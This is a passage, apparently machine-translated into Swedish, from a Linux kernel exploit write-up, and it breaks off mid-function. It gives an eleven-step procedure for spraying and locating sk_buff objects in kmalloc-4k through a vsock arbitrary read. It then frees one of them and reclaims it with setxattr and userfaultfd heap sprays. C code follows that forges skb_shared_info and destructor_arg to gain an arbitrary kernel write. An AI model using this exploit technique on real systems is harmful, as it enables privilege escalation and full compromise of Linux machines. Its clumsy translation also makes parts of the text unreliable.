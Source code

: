 Den nätverksrelaterade bufferten i Linux-kärnan representeras av struct sk_buff. Det finns skb_shared_info och destructor_arg i detta objekt, som kan användas för att styra flödeskapning. Nätverksdata och skb_shared_info placeras i samma kärnminnesblock som sk_buff.head pekar på. Därför skapar ett 2800-byte nätverkspaket i användarutrymme att skb_shared_info allokeras till kmalloc-4k-blockcache, liksom mem_cgroup-objektet.

Jag byggde följande steg:

1. Använd sockets (AF_INET, SOCK_DGRAM, IPPROTO_UDP) för att skapa ett klientuttag och 32 serveruttag

2. Förbered en 2800-byte buffert i användarutrymmet och använd 0x42 för att memset ()

3. Använd sendto () för att skicka denna buffert från klientuttaget till varje serveruttag för att skapa sk_buff-objekt i kmalloc-4k. Använd \`sched_setaffinity () på varje tillgänglig CPU

4. Utför godtycklig läsprocess på vsock_sock

5. Beräkna den möjliga sk_buff-kärnadressen som sk_memcg plus 4096 (nästa element i kmalloc-4k)

6. Utför godtyckliga läsningar på denna möjliga sk_buff-adress

7. Om du hittar 0x42424242424242lu på platsen för nätverksdata, leta reda på den verkliga sk_buffen och gå till steg 8. Annars lägger du till 4096 till den möjliga sk_buff-adressen och går till steg 6

8. Kör setxattr () & userfaultfd () högspray med 32 pthreads på sk_buff och häng dem på pthread_barrier

9. Släpp godtyckligt sk_buff-kärnadressen

10. Ring pthread_barrier_wait (), kör 32 setxattr () för att täcka högsprutpthreads av skb_shared_info

11. Använd recv () för att ta emot nätverksmeddelanden från serveruttaget.

Skriva fritt genom skb_shared_info
------------------------------------

Följande är en giltig nyttolast som skriver över sk_buff-objektet:

    #define SKB_SIZE        4096
    #define SKB_SHINFO_OFFSET    3776
    #define MY_UINFO_OFFSET        256
    #define SKBTX_DEV_ZEROCOPY    (1 << 3)
    void prepare_xattr_vs_skb_spray(void)
    {
        struct skb_shared_info *info = NULL;

        xattr_addr = spray_data + PAGE_SIZE * 4 - SKB_SIZE + 4;

        /* Don't touch the second part to avoid breaking page fault delivery */
        memset(spray_data, 0x0, PAGE_SIZE * 4);

        info = (struct skb_shared_info *)(xattr_addr + SKB_SHINFO_OFFSET);
        info->tx_flags = SKBTX_DEV_ZEROCOPY;
        info->destructor_arg = uaf_write_value + MY_UINFO_OFFSET;

        uinfo_p = (struct ubuf_info *)(xattr_addr + MY_UINFO_OFFSET);
